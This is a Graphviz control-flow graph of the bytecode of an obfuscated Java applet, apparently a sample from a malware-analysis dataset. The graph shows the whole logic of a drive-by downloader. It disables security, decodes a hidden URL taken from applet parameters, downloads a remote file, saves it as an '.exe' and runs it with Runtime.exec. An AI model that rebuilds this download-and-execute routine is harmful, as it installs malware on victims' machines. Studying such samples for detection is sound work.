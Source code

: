 digraph "" {
    "r0 := @this: IwTMuPjZKnlyWtlgsDUd"
    "load.r r0"
    "r0 := @this: IwTMuPjZKnlyWtlgsDUd"->"load.r r0";
    "load.r r0"->"load.r r0";
    "push \"f\""
    "load.r r0"->"push \"f\"";
    "virtualinvoke <IwTMuPjZKnlyWtlgsDUd: java.lang.String getParameter(java.lang.String)>"
    "push \"f\""->"virtualinvoke <IwTMuPjZKnlyWtlgsDUd: java.lang.String getParameter(java.lang.String)>";
    "virtualinvoke <IwTMuPjZKnlyWtlgsDUd: java.lang.String getParameter(java.lang.String)>"->"load.r r0";
    "push \"a\""
    "load.r r0"->"push \"a\"";
    "push \"a\""->"virtualinvoke <IwTMuPjZKnlyWtlgsDUd: java.lang.String getParameter(java.lang.String)>";
    "virtualinvoke <IwTMuPjZKnlyWtlgsDUd: void disableSecurity(java.lang.String,java.lang.String)>"
    "virtualinvoke <IwTMuPjZKnlyWtlgsDUd: java.lang.String getParameter(java.lang.String)>"->"virtualinvoke <IwTMuPjZKnlyWtlgsDUd: void disableSecurity(java.lang.String,java.lang.String)>";
    "new java.lang.StringBuffer"
    "virtualinvoke <IwTMuPjZKnlyWtlgsDUd: void disableSecurity(java.lang.String,java.lang.String)>"->"new java.lang.StringBuffer";
    "store.r r4"
    "new java.lang.StringBuffer"->"store.r r4";
    "load.r r4"
    "store.r r4"->"load.r r4";
    "load.r r4"->"load.r r0";
    "push \"jAESOBzfKFrw\""
    "load.r r0"->"push \"jAESOBzfKFrw\"";
    "push \"jAESOBzfKFrw\""->"virtualinvoke <IwTMuPjZKnlyWtlgsDUd: java.lang.String getParameter(java.lang.String)>";
    "specialinvoke <java.lang.StringBuffer: void <init>(java.lang.String)>"
    "virtualinvoke <IwTMuPjZKnlyWtlgsDUd: java.lang.String getParameter(java.lang.String)>"->"specialinvoke <java.lang.StringBuffer: void <init>(java.lang.String)>";
    "specialinvoke <java.lang.StringBuffer: void <init>(java.lang.String)>"->"new java.lang.StringBuffer";
    "store.r r6"
    "new java.lang.StringBuffer"->"store.r r6";
    "load.r r6"
    "store.r r6"->"load.r r6";
    "specialinvoke <java.lang.StringBuffer: void <init>()>"
    "load.r r6"->"specialinvoke <java.lang.StringBuffer: void <init>()>";
    "push 5"
    "specialinvoke <java.lang.StringBuffer: void <init>()>"->"push 5";
    "store.i $r22"
    "push 5"->"store.i $r22";
    "store.i $r22"->"load.r r4";
    "push 0"
    "load.r r4"->"push 0";
    "push 0"->"push 5";
    "virtualinvoke <java.lang.StringBuffer: java.lang.String substring(int,int)>"
    "push 5"->"virtualinvoke <java.lang.StringBuffer: java.lang.String substring(int,int)>";
    "staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>"
    "virtualinvoke <java.lang.StringBuffer: java.lang.String substring(int,int)>"->"staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>";
    "store.i r0"
    "staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>"->"store.i r0";
    "store.i r0"->"load.r r6";
    "new java.lang.Character"
    "load.r r6"->"new java.lang.Character";
    "dup1.r"
    "new java.lang.Character"->"dup1.r";
    "dup1.r"->"load.r r4";
    "load.i $r22"
    "load.r r4"->"load.i $r22";
    "load.i $r22"->"load.i $r22";
    "load.i $r22"->"push 5";
    "add.i"
    "push 5"->"add.i";
    "add.i"->"virtualinvoke <java.lang.StringBuffer: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.String substring(int,int)>"->"staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>";
    "load.i r0"
    "staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>"->"load.i r0";
    "div.i"
    "load.i r0"->"div.i";
    "i2c"
    "div.i"->"i2c";
    "specialinvoke <java.lang.Character: void <init>(char)>"
    "i2c"->"specialinvoke <java.lang.Character: void <init>(char)>";
    "virtualinvoke <java.lang.Character: java.lang.String toString()>"
    "specialinvoke <java.lang.Character: void <init>(char)>"->"virtualinvoke <java.lang.Character: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"
    "virtualinvoke <java.lang.Character: java.lang.String toString()>"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "pop"
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"pop";
    "inc.i $r22 5"
    "pop"->"inc.i $r22 5";
    "inc.i $r22 5"->"load.i $r22";
    "load.i $r22"->"load.r r4";
    "virtualinvoke <java.lang.StringBuffer: int length()>"
    "load.r r4"->"virtualinvoke <java.lang.StringBuffer: int length()>";
    "ifcmplt.i load.r r6"
    "virtualinvoke <java.lang.StringBuffer: int length()>"->"ifcmplt.i load.r r6";
    "goto staticget <java.lang.System: java.io.PrintStream out>"
    "ifcmplt.i load.r r6"->"goto staticget <java.lang.System: java.io.PrintStream out>";
    "staticget <java.lang.System: java.io.PrintStream out>"
    "goto staticget <java.lang.System: java.io.PrintStream out>"->"staticget <java.lang.System: java.io.PrintStream out>";
    "staticget <java.lang.System: java.io.PrintStream out>"->"load.r r6";
    "virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>"
    "load.r r6"->"virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>";
    "virtualinvoke <java.io.PrintStream: void println(java.lang.String)>"
    "virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>"->"virtualinvoke <java.io.PrintStream: void println(java.lang.String)>";
    "new java.net.URL"
    "virtualinvoke <java.io.PrintStream: void println(java.lang.String)>"->"new java.net.URL";
    "new java.net.URL"->"dup1.r";
    "dup1.r"->"load.r r6";
    "load.r r6"->"virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>";
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"
    "virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>"->"specialinvoke <java.net.URL: void <init>(java.lang.String)>";
    "push \".e\""
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"->"push \".e\"";
    "push \"xe\""
    "push \".e\""->"push \"xe\"";
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"
    "push \"xe\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "staticinvoke <IwTMuPjZKnlyWtlgsDUd: java.lang.String sortBy(java.lang.String)>"
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"staticinvoke <IwTMuPjZKnlyWtlgsDUd: java.lang.String sortBy(java.lang.String)>";
    "store.r r0"
    "staticinvoke <IwTMuPjZKnlyWtlgsDUd: java.lang.String sortBy(java.lang.String)>"->"store.r r0";
    "virtualinvoke <java.net.URL: java.io.InputStream openStream()>"
    "store.r r0"->"virtualinvoke <java.net.URL: java.io.InputStream openStream()>";
    "virtualinvoke <java.net.URL: java.io.InputStream openStream()>"->"store.r r4";
    "new java.io.FileOutputStream"
    "store.r r4"->"new java.io.FileOutputStream";
    "store.r $r22"
    "new java.io.FileOutputStream"->"store.r $r22";
    "load.r $r22"
    "store.r $r22"->"load.r $r22";
    "load.r $r22"->"load.r r0";
    "specialinvoke <java.io.FileOutputStream: void <init>(java.lang.String)>"
    "load.r r0"->"specialinvoke <java.io.FileOutputStream: void <init>(java.lang.String)>";
    "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"
    "specialinvoke <java.io.FileOutputStream: void <init>(java.lang.String)>"->"staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>";
    "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"->"pop";
    "push 1024"
    "pop"->"push 1024";
    "newarray"
    "push 1024"->"newarray";
    "newarray"->"store.r r6";
    "store.r r6"->"load.r r4";
    "load.r r4"->"load.r r6";
    "load.r r6"->"push 0";
    "push 0"->"push 1024";
    "virtualinvoke <java.io.InputStream: int read(byte[],int,int)>"
    "push 1024"->"virtualinvoke <java.io.InputStream: int read(byte[],int,int)>";
    "store.i $i7"
    "virtualinvoke <java.io.InputStream: int read(byte[],int,int)>"->"store.i $i7";
    "load.i $i7"
    "store.i $i7"->"load.i $i7";
    "push -1"
    "load.i $i7"->"push -1";
    "ifcmpeq.i load.r $r22"
    "push -1"->"ifcmpeq.i load.r $r22";
    "ifcmpeq.i load.r $r22"->"load.r $r22";
    "load.r $r22"->"load.r r6";
    "load.r r6"->"push 0";
    "push 0"->"load.i $i7";
    "virtualinvoke <java.io.FileOutputStream: void write(byte[],int,int)>"
    "load.i $i7"->"virtualinvoke <java.io.FileOutputStream: void write(byte[],int,int)>";
    "goto load.r r4"
    "virtualinvoke <java.io.FileOutputStream: void write(byte[],int,int)>"->"goto load.r r4";
    "virtualinvoke <java.lang.Throwable: void printStackTrace()>"
    "goto load.r r4"->"virtualinvoke <java.lang.Throwable: void printStackTrace()>";
    "return"
    "virtualinvoke <java.lang.Throwable: void printStackTrace()>"->"return";
    "ifcmpeq.i load.r $r22"->"load.r $r22";
    "virtualinvoke <java.io.FileOutputStream: void close()>"
    "load.r $r22"->"virtualinvoke <java.io.FileOutputStream: void close()>";
    "virtualinvoke <java.io.FileOutputStream: void close()>"->"load.r r4";
    "virtualinvoke <java.io.InputStream: void close()>"
    "load.r r4"->"virtualinvoke <java.io.InputStream: void close()>";
    "virtualinvoke <java.io.InputStream: void close()>"->"staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>";
    "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"->"load.r r0";
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"
    "load.r r0"->"virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>";
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"->"store.r r0";
    "store.r r0"->"load.r r0";
    "ifnull load.r r0"
    "load.r r0"->"ifnull load.r r0";
    "ifnull load.r r0"->"load.r r0";
    "virtualinvoke <java.lang.Process: int waitFor()>"
    "load.r r0"->"virtualinvoke <java.lang.Process: int waitFor()>";
    "virtualinvoke <java.lang.Process: int waitFor()>"->"pop";
    "goto return"
    "pop"->"goto return";
}
